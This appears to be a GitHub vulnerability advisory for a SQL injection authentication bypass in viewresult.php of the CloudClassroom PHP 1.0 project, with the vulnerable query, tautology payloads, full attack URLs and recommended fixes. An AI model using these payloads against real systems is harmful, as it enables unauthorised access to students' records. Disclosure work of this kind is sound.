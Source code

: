 # Cloud-Classroom-PHP-1.0---Poc2


Presentation: SQL Injection Bypass Authentication in viewresult.php
Security vulnerability:
SQL Injection - Authentication Bypass

Vulnerability Type: Injection

Affected Component: viewresult.php page - parameter seno via POST

Software: CloudClassroom PHP Project

Version: 1.0 (discontinued)

Business Area: Education / e-Learning Platforms

Description of the issue: The viewresult.php page takes a GET parameter seno which is used directly in an SQL query without any sanitization or parameterization:

$seno = $_GET['seno'];
$sql = "SELECT * FROM result WHERE Eno='$seno'";
This allows attackers to inject SQL code in the seno parameter, bypassing authentication or any authorization logic.

Impact: 

Allows attacker to bypass authentication or filters by injecting always-true conditions.

Can return all rows in the result table regardless of the enrollment number.

May expose sensitive data such as student results or other protected information.

Steps to reproduce: Access the page with a crafted URL like:

http://target/viewresult.php?seno=' OR '1'='1
This will transform the query into:

SELECT * FROM result WHERE Eno='' OR '1'='1'
Which returns all results, bypassing any filtering by enrollment number.

Example payloads for authentication bypass:
Payload	Explanation
' OR '1'='1	Always true condition, returns all rows
' OR 1=1 -- -	Comments out rest of query, returns all rows
anything' OR 'x'='x	Bypass with always true condition

Example full URL for bypass:

http://target/viewresult.php?seno=' OR '1'='1
Or
http://target/viewresult.php?seno=' OR 1=1 -- -

Severity: High - bypasses any enrollment-based filtering, potentially exposing sensitive student data.

Recommended Fix: Use prepared statements with bound parameters to prevent injection.

Validate and sanitize all user input.

Use least privilege on DB user.

References:
CWE-89: SQL Injection
OWASP SQL Injection Prevention Cheat Sheet


SQL-Injection Bypass-Authentication

Payload: 1' or 1=1-- -'

<img width="1345" height="416" alt="image" src="https://github.com/user-attachments/assets/fd7aa3cc-f0fd-46d9-8f51-ed689c3d6204" />

Full-path disclose

<img width="1417" height="470" alt="image" src="https://github.com/user-attachments/assets/b5a339a0-0930-4900-ad74-d55a97f93914" />


<img width="1330" height="269" alt="image" src="https://github.com/user-attachments/assets/97d8405e-0830-4ee6-81e6-9e9557b082a8" />
